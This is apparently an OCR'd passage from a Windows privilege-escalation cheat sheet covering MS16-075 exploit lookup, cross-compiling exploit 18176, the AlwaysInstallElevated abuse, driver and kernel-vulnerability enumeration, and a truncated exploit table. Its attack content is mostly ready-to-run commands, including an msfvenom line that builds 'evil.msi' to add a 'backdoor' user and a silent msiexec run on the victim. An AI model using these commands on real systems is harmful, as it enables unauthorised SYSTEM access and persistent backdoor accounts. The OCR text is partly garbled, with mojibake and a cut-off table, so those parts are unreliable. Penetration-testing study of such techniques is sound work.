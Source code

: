 [\*] database file detected as xls or xlsx based on extension

[\*] searching all kbâ€™s for bulletin id MS16-075

[+] relevant kbs [â€˜3164038â€™, â€˜3163018â€™, â€˜3163017â€™, â€˜3161561â€™]

[\*] done

Compile windows exploit in linux:

$ i686-w64-mingw32-gcc 18176.c -lws2\_32 -o 18176.exe

Compiling python scripts to executables:

$ wine ~/.wine/drive\_c/Python27/Scripts/pyinstaller.exe --onefile 18176.py

EoP 6: AlwaysInstallElevated

\*\*AlwaysInstallElevated\*\* is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.

Check if these 2 registry values are set to "1":

$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

If they are, create your own malicious msi:

$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi

Then use msiexec on victim to execute your msi:

$ msiexec /quiet /qn /i C:\evil.msi

Metasploit module:

\> use exploit/windows/local/always\_install\_elevated

EoP 7: Vulnerable drivers

Third party drivers might contain vulnerabilities, find them running:

$ DRIVERQUERY

EoP 8: Kernel vulnerabilities

Run exploit suggester against systeminfo:

https://github.com/GDSSecurity/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py

$ python windows-exploit-suggester.py -d 2017-05-27-mssb.xls -i systeminfo.txt

Find installed paths:

$ wmic qfe get Caption,Description,HotFixID,InstalledOn

Comprehensive talbes of vulnerabilities below:

eDB   Vuln Name         MS#     2K       XP     2003    2008      Vista      7

271   Lsasrv.dll     MS04-011  SP2,3,4  SP0,1    -       -        -         -

350   Util Manager   MS04-019  SP2,3,4  -        -       -        -         -
